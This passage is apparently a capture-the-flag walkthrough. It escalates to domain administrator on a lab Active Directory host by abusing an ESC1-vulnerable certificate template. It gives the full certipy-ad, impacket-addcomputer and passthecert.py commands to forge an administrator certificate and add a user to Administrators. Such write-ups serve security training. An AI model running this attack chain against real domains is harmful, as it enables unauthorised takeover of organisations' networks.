 

Unfortunately it does not look like there is an exploit path from this user so lets go back to our evil-winrm shell and continue enumerating.

In the `C:\Certs` folder we find a file titled `LDAPS.pfx`. A pfx file is a binary format that securely stores a certificate, its associated private key, and any intermediate certificates needed for verification.

This along with the presence of the ADCS (Active Directory Certificate Service) confirms there is a CA running. Lets user `certipy-AD` to look for ay vulnerable certificates.

<h3>Certipy-AD</h3>

Using certipy-ad along with our svc_ldap use4r credentials we can scan for vulnerable certificates:

```
certipy-ad find -target authority.htb -u svc_ldap@authority.htb -p '***********' -vulnerable -stdout
```

Which returns:

```
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True


...

[+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.

```
This tells us the name of the CA `AUTHORITY-CA` and that the template `CorpVPN` has a single vulnerability titles `ESC1`.

Lets analyze that last section more closely:

The `User Enrollable Principals : AUTHORITY.HTB\Domain Computers` means that the `CorpVPN` template allows all domain computers to enroll.


The `ESC1` vulnerability means that we can request a certificate as another user such as the Administrator.

The first step in this exploit path is to add another machine to the domain. However we need to make sure that we are not exceeding the `machineaccountquota` which determines the max amount of workstations a user can attach to a domain. To check this we will use our evil-winrm shell to upload the `PowerView.ps1` script.

This is a very easy task as `evil-winrm` allows us to upload files using the `upload <FileName>` command as long as the file to be uploaded is in the same directory that you were in when you logged in. 

Once imported by running `. .\PowerView.ps1` we can run the following command to see the machine account quota:

```
Get-DomainObject -Identity 'DC=AUTHORITY,DC=HTB' | select ms-ds-machineaccountquota
``` 


We can see that the machine quota is `10` wo we should be fine to add another machine.

To do this we will use the `impacket-addcomputer` tool.

<h3>Impacket-AddComputer</h3>

The command below will ad the machine account `BYTE` to the domain with the password `fragment`:

```
impacket-addcomputer 'authority.htb/svc_ldap:***************' -method LDAPS -computer-name BYTE -computer-pass fragment -dc-ip 10.129.229.56
```



Now we can use `certipy-ad` to request a certificate on behalf of the Domain Administrator.

<h3>Certipy-ad</h3>

To do this we need to ru the command:

```
certipy-ad req -username 'BYTE$' -password fragment -ca AUTHORITY-CA -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```



The resulting certificate and private ket are saved to the `administrator_authority.pfx` which we can use to authenticate to the target machine:

```
certipy-ad auth -pfx administrator_authority.pfx -dc-ip 10.129.229.56
```



Unfortunately this attempt resulted in an error which a cursory google search indicates that the domain controller that does not support PKINIT authentication.

We will thus pivot to attempting a `Pass The Cert` attack.

To implement this attack we will need to separate the .pfx file into two files, one containing the key and the other the certificate. Thankfully `certipy-ad` can doo this very easily:

```
certipy-ad cert -pfx administrator_authority.pfx -nocert -out administrator.key

                                    and 

certipy-ad cert -pfx administrator_authority.pfx -nokey -out administrator.crt
```

Then we need to clone this [git repo](https://github.com/AlmondOffSec/PassTheCert/) that contains the `passthecert.py` exploit script.

Once this is done we can run the command below to open an `ldap shell` :


```
python PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.129.229.56
```

Running the `help` command gives us a list of potential commands:

The `add_user_to_group` option jumps out as we can add the svc_ldap user to the administrators group:



Going back to our evil-winrm shell we can check our group memberships with the command:

```
net user svc_ldap
```



Success! We are now in the administrators group!

The root.txt flag can be found in the Administrators Desktop folder thus solving the challenge:

